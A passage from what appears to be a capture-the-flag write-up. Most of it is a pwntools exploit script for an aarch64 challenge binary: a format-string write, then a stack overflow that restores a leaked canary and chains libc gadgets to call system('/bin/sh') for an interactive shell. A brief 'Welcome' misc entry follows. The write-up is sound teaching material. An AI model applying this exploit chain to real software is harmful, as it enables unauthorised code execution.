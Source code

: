 ```python!
r.recvuntil(b'your spell: ')
r.sendline(payload)

payload = f'%{vuln3_read_offset & 0xFFFF}c%14$hn'.encode()
payload = payload.ljust(0x10, b"\x00")
payload += p64(stack - 0x40)

r.recvuntil(b'your spell: ')
r.sendline(payload)

# ==================== vuln3 ======================== #

libc.address = libc_base

first_gadget = libc.search(asm('ldp x19, x20, [sp, #0x10]; ldp x29, x30, [sp], #0x20; ret;')).__next__()
second_gadget = libc.search(asm('mov x0, x19; ldr x19, [sp, #0x10]; ldp x29, x30, [sp], #0x20; ret;')).__next__()

# r.recvuntil(b'Give me your name: ')

payload = b''
payload += 128 * b'A'		# pad
payload += p64(canary)
payload += p64(0)
payload += p64(first_gadget)
payload += (8 * 3) * b'C'
payload += p64(second_gadget)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += (8 * 2) * b'D'
payload += p64(libc.sym.system)

r.sendline(payload)

r.interactive()
```


![image](https://hackmd.io/_uploads/B1QGl6ogyg.png)



## MISC
### Welcome

![image](https://hackmd.io/_uploads/ryTnC9ieke.png)


It's a damn adorable challenge! I love itttttttttttttttttt <3